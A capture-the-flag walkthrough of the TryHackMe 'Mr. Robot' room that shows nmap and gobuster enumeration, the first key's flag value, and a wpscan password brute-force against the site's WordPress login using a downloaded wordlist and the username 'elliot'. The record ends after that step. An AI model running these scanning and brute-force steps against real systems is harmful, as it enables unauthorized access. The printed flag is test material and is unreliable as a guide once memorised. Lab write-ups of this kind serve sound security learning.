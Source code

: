 ```yaml
---
description: 'https://tryhackme.com/room/mrrobot'
---
```


# Mr. Robot

## INIT

```text
export mrrobot=10.10.177.95
ping $mrrobot

echo "10.10.177.95 mrrobot.thm" >> /etc/hosts
```

## NMAP

```text
nmap -v -sC -sV -O -T5 -p1-65535 mrrobot.thm
```

![](../.gitbook/assets/image%20%28411%29.png)

## GOBUSTER

```text
gobuster dir -u mrrobot.thm -w /usr/share/wordlists/dirb/common.txt -q -t 15 -x php,html,txt
```

## HTTP

![](../.gitbook/assets/image%20%28451%29.png)

* [http://mrrobot.thm/prepare](http://mrrobot.thm/prepare)
* [http://mrrobot.thm/fsociety](http://mrrobot.thm/fsociety)
* [http://mrrobot.thm/inform](http://mrrobot.thm/inform)
* [http://mrrobot.thm/question](http://mrrobot.thm/question)
* [http://mrrobot.thm/wakeup](http://mrrobot.thm/wakeup)
* [http://mrrobot.thm/join](http://mrrobot.thm/join)

![](../.gitbook/assets/image%20%28402%29.png)

![](../.gitbook/assets/image%20%28386%29.png)

### What is key 1?

```text
curl http://mrrobot.thm/key-1-of-3.txt
```

![](../.gitbook/assets/image%20%28387%29.png)

{% hint style="success" %}
073403c8a58a1f80d943455fb30724b9
{% endhint %}

### What is key 2?

```text
curl http://mrrobot.thm/fsocity.dic --output fsocity.dic
```

![](../.gitbook/assets/image%20%28428%29.png)

```text
wpscan --url http://mrrobot.thm --paswords fsocity.dic --usernames 'elliot'
```

![](../.gitbook/assets/image%20%28382%29.png)

